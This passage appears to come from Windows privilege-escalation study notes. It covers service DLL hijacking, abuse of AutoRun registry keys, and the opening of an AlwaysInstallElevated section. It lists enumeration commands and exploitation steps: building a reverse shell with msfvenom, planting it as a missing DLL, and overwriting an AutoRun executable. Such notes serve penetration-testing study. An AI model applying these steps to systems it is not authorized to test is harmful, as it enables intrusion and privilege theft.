 Check start/stop privileges of service:
- `accesschk.exe /accepteula -cquv <username> <service name>`
- **Requirements**: `SERVICE_ALL_ACCESS` o `SERVICE_START` e `SERVICE_STOP`

Exploitation:
- create a DLL reverse shell with *msfvenom*
- trasfer DLL in one of directories PATH where we have write permission. DLL must have the same name as the missing one
- reboot vulnerable service:
	-  `net start/stop <service name>` (alternative: `sc start/stop <service name>`)

## RegistryExploits

### AutoRuns

*AutoRuns* is a Windows functionality whereby a specific program can be executed when an user logs in the system. Such functionality is enabled by specific registry keys.

There are some registry keys that we should give a look:
- `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`

Vulnerable identikit:
1. identify an executable of a *AutoRun*
2. possible misconfigurations:
	- write permission in the directory where executable is located
	- path to the executable has spaces and is not enclosed in inverted commas: [unquoted service path](#unquotedservicepath)
	- write permission o full control of executable

Vulnearble *AutoRun* enumeration:
- `winpeas.exe applicationsinfo` - ideal
- `autorunsc.exe` from [Autoruns - Sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/autoruns)
- manually:
	- `reg query <HKLM e HKCU>\Software\Microsoft\Windows\CurrentVersion\<Run e RunOnce>`
	- `accesschk.exe /accepteula %username% -quvw <path to exe AutoRun>` - **Requirements**: `FILE_ALL_ACCESS` or write permission

Exploitation:
- create an executable reverse shell with *msfvenom*
- backup original executable:
	- `copy "</abs/path/to/original/exe>" C:\Temp`
- overwrite executable of vulnerabile service:
	- `copy /Y <abs path revshell> "</asb/path/to/original/exe>"`
-  force the user whose privileges we wish to obtain to restart the machine

### AlwaysInstallElevated

It is a Windows policy who allows unprivileged user to install a MSI program with elevated privilege.
